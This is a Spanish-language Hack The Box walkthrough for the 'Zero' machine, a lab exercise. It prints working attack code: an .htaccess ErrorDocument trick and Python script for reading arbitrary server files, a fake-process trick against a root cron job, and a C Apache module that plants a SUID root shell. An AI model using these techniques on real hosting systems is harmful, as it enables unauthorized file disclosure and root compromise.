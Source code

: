 ```yaml
---
layout: single
title: HTB: Zero
excerpt: "Zero es una máquina de Hack The Box centrada en el abuso de Apache y la explotación de configuraciones avanzadas. Aquí te muestro el proceso completo, desde el reconocimiento hasta la obtención de root."
date: 2025-09-21
classes: wide
header:
  teaser: /img/zero-cover.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - HackTheBox
  - Apache
  - Exploit
tags:
  - Apache
  - SFTP
  - Privilege Escalation
  - Linux
  - Root
  - CTF
---
```


<p align="center">
  <img src="/assets/images/htb-Zero/box-zero.webp" alt="Zero" style="height:150px;">
</p>

Zero es una máquina de Hack The Box donde el reto principal es abusar de la configuración de Apache en un entorno de hosting compartido. El objetivo es obtener acceso root explotando la gestión de procesos y la configuración personalizada del servidor web.

## Box Info

| Name | [Zero](https://hackthebox.com/machines/zero) ![Zero](/assets/images/htb-Zero/box-zero.webp) |
|------|:---:|
| Release Date | 12 Aug 2025 |
| Retire Date | 12 Aug 2025 |
| OS | Linux ![Linux](/icons/Linux.png) |
| Base Points | Insane [50] |
| Creator | [jkr](https://app.hackthebox.com/users/77141) |

## Recon

### Escaneo Inicial

```console
nmap -p- -vvv --min-rate 10000 10.129.234.62
nmap -p 22,80 -sCV 10.129.234.62
```

Puertos abiertos: **22/SSH** y **80/HTTP**. El servidor corre Apache 2.4.41 sobre Ubuntu 20.04.

### Sitio Web

El sitio es un proveedor de hosting que permite subir archivos vía SFTP y solo sirve páginas HTML estáticas.

#### SFTP

Se obtiene acceso SFTP con las credenciales generadas en el registro. Dentro del directorio `public_html` se encuentra un archivo `.htaccess` controlado por root y un `index.html`.

#### Prueba de ejecución PHP

Al subir archivos `.php`, el servidor solo muestra el código fuente, no lo ejecuta.

#### Abuso de .htaccess para File Read

Se puede modificar `.htaccess` para leer archivos arbitrarios usando la directiva `ErrorDocument`:

```apache
Header always set X-Zero-Customer 'zro-de834d1c'
ErrorDocument 404 %{file:/etc/passwd}
```

Al solicitar un archivo inexistente, el contenido de `/etc/passwd` se muestra en la respuesta.

#### Script para automatizar File Read

```python
# Script para leer archivos usando el vector de .htaccess
import sys
import paramiko
import requests

if len(sys.argv) != 5:
    print(f"usage: {sys.argv[0]} <host> <username> <password> <file_to_read>")
    sys.exit(1)

host, username, password, target_file = sys.argv[1:5]

def write_file(host, username, password, content):
    ssh_client = paramiko.SSHClient()
    ssh_client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    ssh_client.connect(hostname=host, port=22, username=username, password=password)
    sftp_client = ssh_client.open_sftp()
    target_path = "public_html/.htaccess"
    sftp_client.remove(target_path)
    with sftp_client.file(target_path, "wb") as remote_file:
        remote_file.write(content)

def read_file(host, username):
    resp = requests.get(f"http://{host}/~{username}/0xdf.whatever")
    assert resp.status_code == 404
    return resp.text

htcontent = f"ErrorDocument 404 %{{file:{target_file}}}".encode()
write_file(host, username, password, htcontent)
print(read_file(host, username))
```

## Escalada de Privilegios

### Enumeración

Al obtener acceso SSH como `zroadmin` (credenciales extraídas de la base de datos), se observa que existen scripts ejecutados por root cada minuto, incluyendo `/usr/local/bin/zro.web-confcheck`.

### Abuso de procesos y apache2ctl

Se puede crear un proceso falso que simule ser Apache con argumentos controlados, y así manipular la ejecución de `apache2ctl` para incluir archivos arbitrarios o cargar módulos maliciosos.

#### Ejemplo de proceso falso en Python

```python
import os
os.execv('/bin/sleep', ['/opt/zroweb/sbin/apache2 -k start -d /opt/zroweb/conf -d /dev/shm/fileread -E /dev/shm/fileread.log -c', "223"])
```

#### Ejemplo de módulo malicioso en C

```c
#include "httpd.h"
#include "http_config.h"
#include "http_protocol.h"
#include "ap_config.h"

static void myinit(apr_pool_t *p, server_rec *s) {
    system("cp /bin/bash /tmp/0xdf; chown root:root /tmp/0xdf; chmod 6777 /tmp/0xdf");
}

module AP_MODULE_DECLARE_DATA mymodule = {
    STANDARD20_MODULE_STUFF,
    NULL, NULL, NULL, NULL, NULL, NULL
};

__attribute__((constructor))
static void _init() { myinit(NULL, NULL); }
```

Compilar y cargar este módulo permite obtener una shell root vía bash SUID.

## Conclusión

Zero es una máquina avanzada que explota la gestión de procesos y la configuración de Apache para lograr la escalada de privilegios. El reto principal es la creatividad para abusar de `.htaccess`, procesos y módulos personalizados.

---

**¿Te gustó el writeup?**  
Puedes ver la resolución completa en mi canal de YouTube:  
[Máquina Zero - HackTheBox](https://www.youtube.com/watch?v=wOm4OOBLbys)